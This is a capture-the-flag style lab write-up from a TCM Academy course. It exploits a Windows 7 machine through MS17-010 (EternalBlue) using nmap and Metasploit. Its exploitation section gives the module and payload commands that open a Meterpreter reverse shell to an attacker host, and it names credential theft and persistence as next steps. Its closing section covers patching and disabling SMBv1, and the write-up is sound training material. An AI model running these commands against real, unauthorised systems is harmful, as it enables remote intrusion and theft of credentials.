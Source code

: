 # TCM Academy Capstone Lab: Blue (EternalBlue Exploit)

## Overview

This writeup covers the exploitation of a vulnerable SMB service in the "Blue" lab from TCM Academy using the EternalBlue exploit. The attack involves enumerating the target using `nmap` and exploiting it using Metasploit.

## Tools Used

- `nmap` (for enumeration)
- `Metasploit Framework` (for exploitation)

## Enumeration

To identify the vulnerable SMB service, an `nmap` scan was performed:

```bash
sudo nmap -T4 -A <TARGET-IP>
```

![2025-03-16_08-00](https://github.com/user-attachments/assets/a4f07f5f-3d6e-4bba-a340-f40e983af7c0)

This revealed that the target is running **Windows 7 Ultimate Service Pack 1** and has SMB (`port 445`) open.

Additionally, searching for known exploits for this version confirmed that it is vulnerable to **MS17-010 (EternalBlue):**

![2025-03-16_08-01](https://github.com/user-attachments/assets/157b6e80-f5fe-4790-8b26-9de9e929e066)

## Exploitation

Using Metasploit, the following steps were executed:

1. Launch Metasploit:
   ```bash
   msfconsole
   ```
2. Search for the EternalBlue exploit:
   ```bash
   search ms17-010
   ```
   ![2025-03-16_08-05](https://github.com/user-attachments/assets/30f4e4cb-3d78-42f8-99bc-39f1fe851f51)

3. Select the EternalBlue exploit:
   ```bash
   use exploit/windows/smb/ms17_010_eternalblue
   ```
4. Set the required options:
   ```bash
   set RHOSTS <TARGET-IP>
   set PAYLOAD windows/x64/meterpreter/reverse_tcp
   set LHOST <YOUR-IP>
   set LPORT 4444
   ```
   ![2025-03-16_08-08](https://github.com/user-attachments/assets/47abc61b-49e0-4a92-ae80-3bd95076ff95)

5. Launch the exploit:
   ```bash
   exploit
   ```
   ![2025-03-16_08-09](https://github.com/user-attachments/assets/3c1e2b1d-f7fe-46c6-bca0-3e1e02f5234f)

If successful, this grants a **Meterpreter session**, providing remote access to the target:

![2025-03-16_08-10](https://github.com/user-attachments/assets/695114f6-1600-48d1-8d41-00e83ea9a583)

## Post-Exploitation

Once access is gained, various post-exploitation techniques can be used, such as:

- Privilege escalation
- Extracting credentials
- Maintaining persistence

## Mitigation

To prevent exploitation, the following security measures should be implemented:

- Patch the system (apply MS17-010 update)
- Disable SMBv1
- Restrict access to SMB services

## Conclusion

This lab demonstrated how the EternalBlue exploit can be used to compromise a vulnerable SMB service, highlighting the importance of timely patching and proper system hardening.

